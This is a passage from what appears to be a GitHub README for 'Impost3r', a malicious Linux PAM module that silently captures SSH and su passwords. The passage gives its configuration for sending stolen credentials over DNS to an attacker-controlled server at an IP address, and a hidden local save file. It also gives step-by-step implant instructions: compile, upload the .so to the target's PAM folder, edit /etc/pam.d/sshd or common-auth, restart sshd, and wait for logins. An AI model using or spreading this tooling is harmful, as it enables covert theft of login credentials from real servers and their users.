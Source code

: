 ```
\\But if the target server implanted in Impost3r strictly restricts the outbound dns request, please change the value of YOUR_DOMAIN to the domain name you purchased, such as ".example.com", and meanwhile configure the NS record of this domain name to be the DNS server address you control, run Fdns on this DNS server.Change the value of REMOTE_ADDRESS below to the default dns address of the target server implanted in Impost3r(like 192.168.0.1), also change REMOTE_PORT to the default dns service's listening port(port 53 in most cases).
# define MAX_RESEND 30 \\Set the maximum times that Impost3r will try to resends stealing result to attacker's server(This option is valid only when SSH_OR_BOTH is 0)
# define RESEND_INTERVAL 5 \\Set the interval of resending stealing result.(This option is valid only when SSH_OR_BOTH is 0)
# define REMOTE_ADDRESS "192.168.0.12" \\Set the malicious server ip address that you want to receive stealing result
# define REMOTE_PORT 53 \\Set the malicious server port

/*
    Save to local
*/
# define SAVE_LOCATION "/tmp/.sshsucache" \\Set the result file location if you want to save the result on the server
```

- After the modification is completed, save and execute ```make``` in the current directory

- Get the compiled file ```impost3r.so```

- Upload(Compile as much as possible on the target server to prevent unexpected errors) the compiled ```impost3r.so``` to the target server under ```/lib/x86_64-linux-gnu/security``` folder.(Different machines may have different folder names)

- Enter ```/etc/pam.d```, and then there are two cases. If the selected mode is to steal only the ssh password, then you need to execute ```vi sshd``` and add  at the following statement at the end of the file.（Just for Ubuntu, since this file on other systems based on linux may different, so I recommend you to get clear about how these rules work and add the following statement at the proper position）

```
auth optional impost3r.so
account optional impost3r.so
```

- Save and exit, restart the sshd service ```service sshd restart```

- But if you choose to steal the ssh and su passwords together, you need to execute ```vi common-auth```, add the same statement, save and exit and restart the sshd service

- Attacker starts the dns server program on his server, waiting for a legitimate user to log on the target server via ```ssh``` or use ```su``` to switch users to get the passwords.

### Demo

<img src="https://user-images.githubusercontent.com/45198234/83846859-d7960c00-a73d-11ea-81f2-5ec5a912a28d.gif" width="1200" >

### Tips
